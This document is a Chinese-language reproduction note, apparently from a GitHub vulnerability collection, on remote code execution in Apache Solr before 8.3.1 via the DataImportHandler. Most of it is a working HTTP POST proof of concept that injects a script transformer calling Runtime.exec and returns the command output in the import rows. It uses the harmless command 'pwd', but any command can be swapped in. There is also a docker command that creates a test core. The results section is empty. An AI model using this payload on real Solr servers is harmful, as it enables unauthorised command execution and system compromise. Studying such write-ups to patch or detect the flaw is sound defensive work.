

# Solr < 8.3.1 RCE

## 漏洞描述

利用需开启DataImportHandler模块(默认情况下该模块不被启用)

此次漏洞出现在Apache Solr的DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的DIH配置都可以通过外部请求的dataConfig参数来设置。由于DIH配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。

## writeup

- 待执行命令 

```
pwd
```

- 创建core

```
docker exec solr bash bin/solr create_core -c demo -d example/example-DIH/solr/db
```

- POC

```
POST /solr/demo/dataimport?indent=on&wt=json HTTP/1.1
Host: xxxx:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 644
Connection: close

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&dataConfig=<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(row){ row.put("id",new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("pwd").getInputStream())).readLine());
        return row;
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig%3E&name=dataimport
```

## 复现结果


